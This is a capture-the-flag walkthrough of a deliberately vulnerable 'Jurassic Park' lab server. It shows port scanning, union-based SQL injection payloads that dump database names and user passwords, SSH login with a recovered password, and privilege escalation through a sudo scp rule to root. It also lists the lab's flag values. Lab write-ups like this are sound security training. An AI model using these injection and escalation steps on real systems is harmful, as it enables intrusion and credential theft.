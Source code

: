 # Jurassic Park

"This medium-hard task will require you to enumerate the web application, get credentials to the server and find 5 flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too...

You're also going to want to turn up your devices volume (firefox is recommended). So, deploy the VM and get hacking..."

## Recon

Initial `nmap -p-` revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 02:54 UTC
Nmap scan report for ip-10-10-23-246.eu-west-1.compute.internal (10.10.23.246)
Host is up (0.00065s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:C7:70:B4:4A:54 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.83 seconds
```

nikto and dirb against the website revealed a delete page, whose contents was the following:

```
New priv esc for Ubunut??

Change MySQL password on main system!
```

The assets dir was also listable. It contained images and a few audio files, none of which seemed to contain anything of note.

Clicking through the website to `shop.php` there were three packages you could buy. Clicking through on any of them took me to `item.php` with a query param `id` of 1, 2 or 3. The id seemed injectable; some entries, like `id=*` would return a mysql error. Others, like `id='`, would trigger a denied error page with a jurassic park themed error.

sqlmap didnt work - kept timing out (later when I examined the source of the page, there seems to be some anti-sqlmap code in there).

I tried incrementing id, and on id 5 I got a 'development product' with the description:

```
Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?
```

## SQLi

Trying the query `1 union select null, password, null, null, null from users` results in the password `ih8dinos` being printed on screen. I had confirmed the five column select and positioning already through trial and error.

Select into outfile didn't work (--secure-file-priv or whatever was not set). Select `user()` revealed mysql was running as root@localhost. Trying to ssh onto the box with root and `ih8dinos` did not get me access unfortunately.

I discovered the sql inject would only return the last row from its query as a result. Therefore, ih8dinos from above was the password of the final row in the users table. Appending `limit 2` got a second and as far as I could see, the only other password: `D0nt3ATM3`. This also didn't work with ssh.

However, focusing on the room questions:

1. To get the database name, I used: `1 union select distinct null, table_schema, null, null, null from information_schema.tables limit 4` and revealed `park`

2. I used `1 union select null, table_name, null, null, null from information_schema.tables where table_schema = "park" limit 2` to discover just two tables, `items` and `users`. I already know from my injection that `items` has `5` columns

3. `1 union select null, version(), null, null, null` reveals `5.7.25-0ubuntu0.16.04.2`. Going by the answer mask, the answer is `ubuntu 16.04`.

4. Dennis' password could be one of the two I have found so far. `ih8dinos` was the answer.

At this point I tried ssh'ing as `dennis` to the machine, and the password worked, getting me a shell as dennis.

## Flags

**flag1.txt** was in dennis's home dir: `b89f2d69c56b9981ac92dd267f`

I ran `sudo -l` immediately, and discovered:

```
Matching Defaults entries for dennis on ip-10-10-23-246.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-23-246.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

dennis had a test.sh file saying **flag5.txt** was under /root. I used `sudo scp /root/flag5.txt .` to get flag5 where I could read it: `2a7074e491fcacc7eeba97808dc5e2ec`

`find / -name flag* 2>/dev/null` revealed **flag2** at `/boot/grub/fonts/flagTwo.txt`: `96ccd6b429be8c9a4b501c7a0b117b0a`

**flag3** was the top entry of dennis' `.bash_history file`: `b4973bbc9053807856ec815db25fb3f1`

The final flag (for me) was **flag 4**. The file `.viminfo` in dennis' dir said it should be `/tmp/flagFour.txt`. I looked around but the flag was nowhere to be seen. Even root searches (see next note) didn't reveal it. I finally looked for help and discovered this is a bug - the flag is supposed to be there in `tmp`, but isn't. So, using a walkthrough (where the writer said he got it direct from the creator), I 'OSINTed' the flag as `f5339ad0edbd0b0fe1262d91a475c2c4`

At this point, I used https://gtfobins.github.io/gtfobins/scp/#sudo to get a root shell using scp, then changed the root password to `hacktheplanet` for good measure. This wasn't really necessary, but fuckit.
